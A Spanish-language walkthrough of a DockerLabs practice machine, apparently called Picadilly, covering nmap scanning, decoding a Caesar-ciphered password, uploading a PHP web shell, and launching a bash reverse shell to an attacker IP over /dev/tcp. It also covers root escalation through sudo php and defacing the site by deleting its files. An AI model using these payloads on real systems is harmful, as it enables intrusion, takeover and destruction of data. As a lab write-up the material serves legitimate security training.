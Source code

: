
![[20250825191353.png]]

# Fase de reconocimiento

empezamos con un escaneo básico de puertos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez sabemos los puertos que están abiertos vamos a realizar un segundo escaneo pero esta vez con scripts básicos de nmap para sacar el servicio y la versión que corren por detras 


```bash
nmap -p80,443 -sCV 172.17.0.2 -oN targeted
```
![[20250825191755.png]]

vemos que tenemos los puertos 80 y 443 abiertos y que ambos son http y https por lo que vamos a ver que hay en la web empezando por el puerto 80


![[20250825191845.png]]

por el puerto 80 vemos esta pagina donde hay un archivo backup.txt veamos que contiene

![[20250825191920.png]]

pone que hay un usuario llamado mateo y una contraseña "hdvbfuadcb" pero nos pone que la contraseña esta encriptada con el método de cifrado Cesar. ya que hace referencia a un emperador romano y su cifrado de cambio de letras

utilizamos un decodificador de cifrados y vemos que nos muestra varias posibles combinaciones.

![[20250825192110.png]]

en una de las partes vemos una contraseña que es "easycrxazy" lo cual guardaremos como posible contraseña pero ahora hay que ver donde ponemos esa contraseña 

vamos a la pagina https que esta en el puerto 443 "https://172.17.0.2:443"

![[20250825192347.png]]

vemos una pagina con post y anuncios sobre picadilly abajo de la pagina web vemos esto 

![[20250825192422.png]]

# Fase de explotacion

asi que vamos a tratar de subir un archivo php para inyectar una shell, en nuestra maquina victima creamos un archivo con nombre shell.php y dentro pondremos lo siguiente

```php
<?php system($_GET['cmd']); ?>
```

y ahora subiremos el archivo 

![[20250825192614.png]]

vemos que la pagina nos acepta la subida aunque desde aqui no podemos hacer gran cosa. como es costumbre cuando se suben archivos a una web suele existir un directorio llamado uploads asi que vamos a comprobarlo

ponemos en la URL "https://172.17.0.2/uploads/"

![[20250825192753.png]]

efectivamente tenemos el directorio y dentro esta nuestra shell asi que pinchamos y probamos a lanzar algun codigo de prueba

```bash
https://172.17.0.2/uploads/shell.php?cmd=id
```

![[20250825192834.png]]

vemos que efectivamente tenemos shell así que vamos a lanzarnos una shell por el puerto 443

en nuestra maquina atacante vamos a preparar un puerto 443 para recibir la shell 

```bash
nc -nlvp 443
```

y desde la url ponemos lo siguiente 

```bash
https://172.17.0.2/uploads/shell.php?cmd=bash -c "bash -i %26> /dev/tcp/192.168.1.182/443 0>%261"
```

![[20250825193051.png]]

vemos que hemos recibido la shell correctamente 

# Fase de Post explotación

lo primero será tratar la shell para trabajar mas cómodos 

```bash
script /dev/null -c bash
```

luego pulsamos Ctrl + Z para suspender la shell

luego ponemos en nuestra maquina atacante 
```bash
stty raw -echo; fg
```

y para finalizar escribimos 

```bash
export TERM=xterm
```

ahora si tenemos una shell practica 


lo primero que haremos ya que tenemos el usuario mateo y la contraseña "easycrxazy" va a ser probarlo 

![[20250825193359.png]]

vemos que la contraseña no funciona, la logica me dice que la x de la palabra crxazy esta puesta a posta para molestar asi que probaremos a poner la frase easycrazy sin la x 


![[20250825193518.png]]

ahora si vemos que tenemos shell con el usuario mateo 

# Escalada de privilegios 

como siempre empezamos por el comando 

```bash
sudo -l 
```

![[20250825193607.png]]

vemos que tenemos permisos de sudo con el binario php asi que vamos a revisar en GTFObins que podemos hacer con esto 

![[20250825193647.png]]

probamos a lanzar el script por terminal 

```bash
sudo php -r "system('/bin/bash');"
```

![[20250825193744.png]]

y podemos ver que tenemos acceso como root 


# Extra 

vamos a dejar nuestra firma ya que las maquinas docker labs no tienen bandera todo el proceso esta documentado en la maquina chocolatelovers . en este caso la maquina victima no tiene wget instalado asi que vamos a cambiar el proceso de la firma


ya que tenemos acceso a la pagina web por el puerto 443 donde podemos subir el archivo que queramos vamos a subir el index.html y la imagen de la firma 

luego en la maquina victima vamos al directorio "/var/www/html"

y haremos el siguiente comando 

```bash
mv ./uploads/index.html . && mv ./uploads/panda.png .
```

luego borraremos todo lo demás para dejar solo nuestros archivos 

```bash
rm -r index.php create_post.php picadilly.jpg uploads uploads.php
```

![[20250825195456.png]]

cuando solo tengamos esto vamos al puerto 80 

```bash
cd ../picadilly
```

donde estará el archivo backup.txt lo borramos también 

```bash
rm -r backup.txt
```

y copiamos el index.html y la imagen al directorio actual 

```bash
cp ../html/* .
```


ahora si podemos ir a la pagina web y refrescar

![[20250825195821.png]]

aqui podemos ver nuestra firma.
